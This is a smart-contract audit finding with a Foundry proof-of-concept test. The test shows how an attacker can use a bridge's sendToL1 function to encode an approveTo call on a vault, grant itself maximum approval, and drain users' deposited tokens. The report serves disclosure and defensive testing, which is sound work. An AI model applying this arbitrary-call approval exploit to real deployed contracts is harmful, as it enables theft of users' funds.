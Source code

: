 ## Impact

Attackers can force their approval to withdraw the entire vault balance. This is a high-risk and high-likelihood finding, therefore high-severity.

## Proof of concept

### Working test case

A user deposits tokens into the vault. An attacker can then call `sendToL1()` with the `message` parameter set as an ABI-encoded call to the vault, forcing the attacker to have the maximum approval limit. The attacker is then able to call `token.transferFrom()` to transfer all of the funds held in the vault to themselves.

```solidity
function test_poc_approveWithdrawFromDeposit() public {
    // user deposits funds to the vault which can then be stolen
    vm.startPrank(user);
    uint256 amount = 10e18;
    token.approve(address(tokenBridge), amount);
    vm.expectEmit(address(tokenBridge));
    emit Deposit(user, userInL2, amount);
    tokenBridge.depositTokensToL2(user, userInL2, amount);
    vm.stopPrank();

    uint256 vaultBalanceBefore = token.balanceOf(address(vault));
    console2.log("Vault balance before: %s", vaultBalanceBefore);

    // attacker gets a signature to call sendToL1 but the message encodes an approveTo call
    address attacker = makeAddr("attacker");
    bytes memory message = abi.encode(address(vault), 0, abi.encodeCall(L1Vault.approveTo, (address(attacker), type(uint256).max)));
    (uint8 v, bytes32 r, bytes32 s) = _signMessage(message, operator.key);
    vm.startPrank(attacker);
    tokenBridge.sendToL1(v, r, s, message);
    // attacker transfers the vault balance to themselves
    token.transferFrom(address(vault), attacker, vaultBalanceBefore);

    uint256 vaultBalanceAfter = token.balanceOf(address(vault));
    console2.log("Vault balance after: %s", vaultBalanceAfter);

    uint256 attackerBalanceAfter = token.balanceOf(attacker);
    console2.log("Attacker balance after: %s", attackerBalanceAfter);

    assertTrue(vaultBalanceAfter == 0);
    assertEq(attackerBalanceAfter, vaultBalanceBefore);
}
```

Running the test shows that the attacker has been able to withdraw the vault's token balance, stealing the user's deposit.
